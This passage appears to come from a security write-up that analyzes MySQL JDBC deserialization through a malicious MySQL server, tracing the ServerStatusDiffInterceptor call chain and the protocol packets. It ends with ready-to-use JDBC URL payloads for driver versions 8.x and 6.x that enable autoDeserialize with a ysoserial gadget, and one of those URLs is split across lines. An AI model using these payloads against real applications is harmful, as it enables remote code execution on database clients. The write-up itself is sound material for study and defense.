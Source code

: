 ````sql
Trace back along the stack call information. During the process of `JDBC connecting to the database, `ServerStatusDiffInterceptor` is an interceptor. When setting the attribute `queryInterceptor` to `ServerStatusDiffInterceptor` in the `JDBC URL`, executing the query statement will call the `preProcess` and `postProcess` methods of the interceptor, and then call the `ServerStatusDiffInterceptor#populateMapWithSessionStatusValues` method to execute the `SHOW SESSION STATUS` command to query, and then when processing the result, it will call `resultSetToMap`. In turn, it triggers `ResultSetImp#getObject`.

<div align=center><img src="./images/7.png"></div>

<div align=center><img src="./images/8.png"></div>

<div align=center><img src="./images/5.png"></div>

<div align=center><img src="./images/6.png"></div>

Going further back is some basic processing operations of the `MySQL` connection.

# Malicious MySQL Server Script Analysis
Use `Wireshark` to catch packets to see what traffic is like, and the content `07000002000000020000000` is a simple `Response OK` packet.

<div align=center><img src="./images/10.png"></div>

`4a0000000a352e372e313900080000000463b452623342c2d00fff7080200ff811500000000000000000000000000000000000000000000000000000032851553e5c23502c51366a006d7973716c5f6e61746976655f706173776f726400` is a greeting message, just POST it.

<div align=center><img src="./images/11.png"></div>

`show session status` belongs to the `request Query` message. The response packets for query packets can be divided into four types: `ERR Packet`, `OK Packet`, `Protocol::LOCAL_INFILE_Request`, and `ProtocolText::Resultset`. The above `Response OK` packet is `OK packet`, and this part mainly uses the result set packet. Reference [ProtocolText::Resultset](https://dev.mysql.com/doc/internals/en/protocoltext-resultset.html),

A result set response packet is divided into four data segments, and the structure of the data segments is also similar, with length (3 bytes), sequence number (1 byte), protocol data (different protocol data):
 - Data segment 1: Explain how many columns there are in the following result set;
 - Data segment 2: column definition;
 - Data segment 3: `EOF` package;
 - Data segment 4: Line data (`Payload`).

<div align=center><img src="./images/12.png"></div>

# Other Payload
## ServerStatusDiffInterceptor triggers
### 8.x

```java
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc
```

### 6.x
The attribute names are different, change `queryInterceptors` to `statementInterceptors`.

```java
jdbc:mysql://1
27.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc
```

````